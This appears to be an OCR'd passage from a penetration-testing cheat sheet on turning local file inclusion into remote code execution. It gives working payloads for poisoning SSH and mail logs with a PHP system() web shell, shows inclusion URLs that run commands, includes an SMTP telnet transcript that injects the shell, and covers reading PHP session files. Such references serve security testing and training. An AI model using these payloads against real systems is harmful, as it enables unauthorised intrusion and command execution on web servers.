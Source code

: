 ### **RCE via SSH**

Try to ssh into the box with a PHP code as username `<?php system($_GET["cmd"]);?>`.

```
ssh <?php system($_GET["cmd"]);?>@10.10.10.10
```

Then include the SSH log files inside the Web Application.

```
http://example.com/index.php?page=/var/log/auth.log&cmd=id
```

### **RCE via Mail**

First send an email using the open SMTP then include the log file located at `http://example.com/index.php?page=/var/log/mail`.

```
root@kali:~# telnet 10.10.10.10. 25
Trying 10.10.10.10....
Connected to 10.10.10.10..
Escape character is '^]'.
220 straylight ESMTP Postfix (Debian/GNU)
helo ok
250 straylight
mail from: mail@example.com
250 2.1.0 Ok
rcpt to: root
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
subject: <?php echo system($_GET["cmd"]); ?>
data2
.
```

In some cases you can also send the email with the `mail` command line.

```
mail -s "<?php system($_GET['cmd']);?>" www-data@10.10.10.10. < /dev/null
```

## **LFI to RCE via PHP sessions**

Check if the website use PHP Session (PHPSESSID)

```
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
```

In PHP these sessions are stored into /var/lib/php5/sess\_\[PHPSESSID] or /var/lib/php/session/sess\_\[PHPSESSID] files

```
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
```

